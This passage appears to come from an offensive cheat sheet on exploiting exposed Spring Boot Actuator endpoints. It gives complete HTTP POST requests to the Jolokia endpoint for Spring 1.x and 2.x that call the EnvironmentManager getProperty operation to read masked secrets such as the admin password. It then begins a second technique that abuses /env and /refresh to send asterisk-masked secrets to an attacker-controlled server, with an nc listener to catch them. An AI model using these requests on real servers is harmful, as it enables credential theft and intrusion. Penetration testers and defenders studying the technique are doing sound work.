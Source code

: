 4. **Call org.springframework.cloud.context.environmentMbean **( requires spring cloud related dependencies )
   - In fact, it calls the getProperty method of the org.springframework.cloud.context.environment.EnvironmentManager class instance

**spring 1.x**

```http
POST /jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```

**spring 2.x**

```http
POST /actuator/jolokia HTTP/1.1
Host: {{ target-domain vulnerable.net }}
Content-Type: application/json

{"mbean": "org.springframework.cloud.context.environment:name=environmentManager,type=EnvironmentManager","operation": "getProperty", "type": "EXEC", "arguments": ["{{ attribute security.user.password }}"]}
```


### Password Desensitized by the Asterisk (method 2)

When accessing the `/env` interface, the spring actuator will replace the attribute values ​​corresponding to some attribute names with sensitive keywords (such as password, secret) with * to achieve the effect of desensitization

#### Conditions of use:

- GET request to the target website `/env`
- Cans send POST requests to the target website `/env`
- You can send POST request to the `/refresh` interface to refresh the configuration (`spring-boot-starter-actuator` dependency exists)
- The target uses a `spring-cloud-starter-netflix-eureka-client` dependency.
- The target can request the attacker's server (the request can go out of the Internet)

#### Steps to use:

1. Find the property name you want to get
   - GET requests the `/env` or `/actuator/env` interface of the target website, search for ******keywords, and find the attribute name corresponding to the attribute value masked by the asterisk * to be obtained.

2. Use nc to listen for HTTP requests
   - Listen to port 80 on the external network server controlled by yourself. It can be your Burp collaborator, interact.sh, the classic `nc -nlvp 80` or `httpdump :80` ([httpdump on Github](https://github.com/luastan/httpdump))

